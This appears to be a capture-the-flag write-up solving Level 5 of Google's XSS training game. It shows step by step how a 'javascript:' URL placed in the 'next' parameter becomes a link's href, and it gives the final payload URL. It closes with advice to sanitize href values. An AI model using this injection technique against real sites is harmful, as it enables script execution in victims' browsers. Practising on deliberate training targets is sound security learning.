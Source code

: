 ## 🛡️ Level 5: Breaking protocol

### 🎯 Mission Description  
Cross-site scripting isn't just about injecting new elements into the DOM. Sometimes, you can exploit how the application handles protocols like `javascript:`.

### 🎯 Mission Objective  
Inject a script that triggers `alert()` in the application's context.

### 🧩 Steps  
1. Open the challenge URL:  
   `https://xss-game.appspot.com/level5/frame/signup?next=confirm`

2. View the page source and find this:
   ```html
   <a href="confirm">Next >></a>
   ```

3. The `next` parameter in the URL is directly inserted into the `href` attribute.

4. Change the `next` value in the URL to:
   ```
   javascript:onclick=alert(1);
   ```

5. Final link becomes:  
   `https://xss-game.appspot.com/level5/frame/signup?next=javascript:onclick=alert(1);`

6. Now the rendered HTML is:
   ```html
   <a href="javascript:onclick=alert(1)">Next >></a>
   ```

7. Click the "Next >>" link → 💥 `alert(1)` pops.

### 💣 Final Payload  
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:onclick=alert(1);
```

### 📝 Notes  
- No DOM injection needed.
- It's abusing how the `href` accepts and executes `javascript:` protocols.
- Always sanitize and validate `href` parameters in URLs.

**Status: Solved ✅**
